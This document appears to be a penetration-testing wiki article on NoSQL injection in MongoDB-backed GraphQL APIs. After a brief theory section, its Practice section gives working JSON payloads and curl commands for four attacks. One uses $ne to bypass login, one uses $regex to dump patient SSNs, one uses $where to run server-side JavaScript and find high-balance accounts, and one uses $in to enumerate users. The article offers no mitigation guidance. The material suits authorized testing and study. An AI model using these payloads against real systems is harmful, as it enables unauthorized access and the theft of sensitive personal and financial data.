

# NoSQL Injection

## Context

NoSQL injection allows attackers to manipulate NoSQL queries through unsanitized user input in GraphQL APIs, particularly those backed by MongoDB. This technique exploits input validation weaknesses to inject NoSQL operators and access sensitive data or bypass authentication. This article assumes familiarity with NoSQL databases, GraphQL queries, MongoDB’s query language, and prior knowledge of GraphQL injection techniques.

## Theory

### NoSQL Injection Fundamentals in GraphQL Context

NoSQL injection involves the manipulation of NoSQL queries by exploiting input fields that dynamically construct these queries. In the context of GraphQL applications, the resolvers responsible for executing queries may directly incorporate user-provided data into NoSQL queries without proper validation. This vulnerability model relies on input that the server does not properly sanitize or validate, allowing attackers to inject operators like `$ne`, `$regex`, or `$where`, which substantially alter the intended query behavior.

### MongoDB Operator Injection Techniques

MongoDB supports various operators which, when not properly handled, can be used to subvert application logic. Operators such as `$ne` (not equal), `$in` (in array), `$regex` (pattern matching), and `$where` (JavaScript execution) come into play. An attack typically involves injecting these operators as values in input fields to bypass authentication checks or extract sensitive data. For example, injecting `$ne:null` could subvert standard equality logic checks, facilitating unauthorized access or data retrieval.

### NoSQL Injection via GraphQL APIs

In a GraphQL context, attackers craft queries with malicious input that, through the resolver, manipulates backend NoSQL queries. The data flow of such an attack is straightforward: user input moves to the GraphQL API, through the resolver, and down to the MongoDB, which then returns data back through the same pathway to the user. A successful injection manipulates this flow to unfairly access or alter data.



## Practice

### Authentication Bypass via $ne Operator Injection

- **Payload:** Use the following JSON body to inject `$ne` into authentication checks:
  ```json
  {
    "query": "query Login($creds: LoginInput!) { login(input: $creds) { token } }",
    "variables": {
      "creds": {
        "username": { "$ne": null },
        "password": { "$ne": null }
      }
    }
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql \
    -H 'Content-Type: application/json' \
    --data '{"query":"query Login($creds: LoginInput!){ login(input:$creds){ token } }","variables":{"creds":{"username":{"$ne":null},"password":{"$ne":null}}}}'
  ```

- **Outcome:** Access is granted without valid credentials by forcing the authentication condition to evaluate as true.

### Sensitive Data Extraction via $regex Injection

- **Payload:** Use this JSON body to inject a `$regex` filter that matches all SSNs:
  ```json
  {
    "query": "query Patients($filter: PatientFilter!) { patients(filter: $filter) { name ssn } }",
    "variables": {
      "filter": {
        "ssn": { "$regex": ".*" }
      }
    }
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql \
    -H 'Content-Type: application/json' \
    --data '{"query":"query Patients($filter:PatientFilter!){ patients(filter:$filter){ name ssn } }","variables":{"filter":{"ssn":{"$regex":".*"}}}}'
  ```

- **Outcome:** All patient SSNs matching the regular expression are returned, exposing sensitive records.

### Arbitrary Query Manipulation via $where Injection

- **Payload:** Inject a `$where` clause to execute JavaScript logic server-side:
  ```json
  {
    "query": "query Accounts($filter: AccountFilter!) { accounts(filter: $filter) { owner balance } }",
    "variables": {
      "filter": {
        "$where": "this.balance > 10000"
      }
    }
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql \
    -H 'Content-Type: application/json' \
    --data '{"query":"query Accounts($filter:AccountFilter!){ accounts(filter:$filter){ owner balance } }","variables":{"filter":{"$where":"this.balance > 10000"}}}'
  ```

- **Outcome:** Only accounts with balances greater than 10,000 are returned, revealing high-value targets.

### Bulk Data Access via $in Operator Injection

- **Payload:** Use the `$in` operator to expand username matching:
  ```json
  {
    "query": "query Users($filter: UserFilter!) { users(filter: $filter) { username email } }",
    "variables": {
      "filter": {
        "username": { "$in": ["admin", "user", "test"] }
      }
    }
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql \
    -H 'Content-Type: application/json' \
    --data '{"query":"query Users($filter:UserFilter!){ users(filter:$filter){ username email } }","variables":{"filter":{"username":{"$in":["admin","user","test"]}}}}'
  ```

- **Outcome:** Multiple user records are returned in a single request, enabling efficient bulk enumeration.

## Tools

- **curl**
- **Burp Suite**
- **Postman** 